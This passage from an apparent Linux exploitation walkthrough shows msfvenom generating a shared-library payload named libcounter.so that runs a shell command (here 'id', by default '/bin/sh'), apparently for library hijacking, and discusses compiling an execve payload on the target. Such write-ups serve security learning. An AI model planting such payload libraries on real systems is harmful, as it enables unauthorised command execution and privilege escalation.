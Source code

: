 The above in my case will call the sys_execve syscall and run ”/bin/sh” though no guarantee is given that this will always be the case. We can change the CMD option to have some other command ran.

```bash
$ msfvenom -p linux/x64/exec -f elf-so CMD="id" -o libcounter.so
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 39 bytes
Final size of elf-so file: 441 bytes
Saved as: libcounter.so
```

![msfvenom payload with custom command in ghidra](Assets/msfvenom_decompilation_custom_command.jpg)

This will effectively run `/bin/sh -c 'id'`.

## Compile on target

The execve function is a wrapper around the execve linux syscall meaning it requires libc. Compiling locally and moving the compiled binary into the target may not work for the same reasons we had to patch the stock binary to make it work. We could try statically compiling, but that could run into libc version mismatch issues.
